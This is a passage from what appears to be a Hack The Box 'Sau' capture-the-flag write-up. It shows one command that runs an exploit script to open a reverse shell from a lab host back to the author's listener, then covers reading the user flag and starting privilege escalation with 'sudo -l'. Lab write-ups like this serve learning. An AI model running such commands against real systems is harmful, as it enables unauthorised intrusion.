 **heads up: you may need root permissions to open up a port, in which case just put a "sudo" at the beginning**

now just run this command and we should be ready to go:

``` bash
python3 exploit.py [INSERT_LOCAL_VPN_IP_HERE] 8080 http://10.129.229.26:55555/xfuvxex
```

looks like we now have revshell as a user named puma:

![](/assets/img/htb_sau/Screenshot_From_2024-09-24_01-12-00.png)

### Command and Control

it seems as though we already have a normal user, so let's navigate to the home directory and see if we can find anything:

![](/assets/img/htb_sau/Screenshot_From_2024-09-24_01-20-54.png)

we then can see a file named user.txt and that seems to be the user flag!

I recommend a break here as we just did quite a bit.

now let's see if we can get root.

### Privilege escalation

here we can upload linpeas or something of that nature. While that would work, I want to try and get low hanging fruit with a simple "sudo -l"

![](/assets/img/htb_sau/Screenshot_From_2024-09-24_01-27-58.png)
